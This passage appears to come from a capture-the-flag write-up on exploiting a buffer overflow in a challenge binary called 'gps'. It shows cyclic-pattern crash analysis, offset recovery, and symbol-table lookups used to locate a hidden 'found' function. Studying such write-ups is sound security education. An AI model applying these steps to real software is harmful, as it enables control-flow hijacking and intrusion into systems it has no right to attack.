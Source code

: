 ```bash
$ cyclic 50
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaama
```
Using this string as input to the binary,

```bash
$ ./gps
---   ---   ---   ---
|5|   |6|   |a|   |4|
---   ---   ---   ---

     YOU ARE HERE      
          O            
---   ---   ---   ---
|6|   |1|   |3|   |c|
---   ---   ---   ---
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaama
Segmentation fault (core dumped)
```
Analysing the segmentation fault,

```bash
$ dmesg | tail
[  794.070613] gps[4833]: segfault at 616a6161 ip 00000000616a6161 sp 00000000ff85f1c0 error 14 in libc-2.30.so[f7dbe000+1d000]
[  794.070629] Code: Bad RIP value.
```
which shows that it occured at the address 616a6161. Using this as the lookup value,

```bash
$ cyclic -l 0x616a6161
34
```
Hence we obtain the offset as 34.

8. To find the difference between the addresses of the functions gps and found, running `readelf -s gps` and looking at part of the output,

```bash
$ readelf -s gps
    56: 0000134c   350 FUNC    GLOBAL DEFAULT   16 gps
    57: 000012c9     0 FUNC    GLOBAL HIDDEN    16 __x86.get_pc_thunk.dx
    58: 00000000     0 FUNC    WEAK   DEFAULT  UND __cxa_finalize@@GLIBC_2.1
    59: 00000000     0 FUNC    GLOBAL DEFAULT  UND malloc@@GLIBC_2.0
    60: 00004000     0 NOTYPE  GLOBAL DEFAULT   25 __data_start
    61: 00000000     0 FUNC    GLOBAL DEFAULT  UND puts@@GLIBC_2.0
    62: 00000000     0 NOTYPE  WEAK   DEFAULT  UND __gmon_start__
    63: 00000000     0 FUNC    GLOBAL DEFAULT  UND exit@@GLIBC_2.0
    64: 00004004     0 OBJECT  GLOBAL HIDDEN    25 __dso_handle
    65: 000012cd   127 FUNC    GLOBAL DEFAULT   16 found
    66: 00002004     4 OBJECT  GLOBAL DEFAULT   18 _IO_stdin_used
    67: 00000000     0 FUNC    GLOBAL DEFAULT  UND __libc_start_main@@GLIBC_
    68: 000014f0   101 FUNC    GLOBAL DEFAULT   16 __libc_csu_init
    69: 00000000     0 FUNC    GLOBAL DEFAULT  UND fopen@@GLIBC_2.1
    70: 0000400c     0 NOTYPE  GLOBAL DEFAULT   26 _end
    71: 00001190    58 FUNC    GLOBAL DEFAULT   16 _start
    72: 00002000     4 OBJECT  GLOBAL DEFAULT   18 _fp_hw
    73: 00004008     0 NOTYPE  GLOBAL DEFAULT   26 __bss_start
    74: 000014aa    68 FUNC    GLOBAL DEFAULT   16 main
    75: 00000000     0 FUNC    GLOBAL DEFAULT  UND sprintf@@GLIBC_2.0
    76: 00000000     0 FUNC    GLOBAL DEFAULT  UND __isoc99_scanf@@GLIBC_2.7
    77: 00004008     0 OBJECT  GLOBAL HIDDEN    25 __TMC_END__
    78: 00000000     0 NOTYPE  WEAK   DEFAULT  UND _ITM_registerTMCloneTable
```
We can see that gps is located at the address `(some starting point) + 134c` and found is located at the address `(some starting point) + 12cd`. Hence, we can say that the difference between the two locations is `address(gps)- address(found) = 127`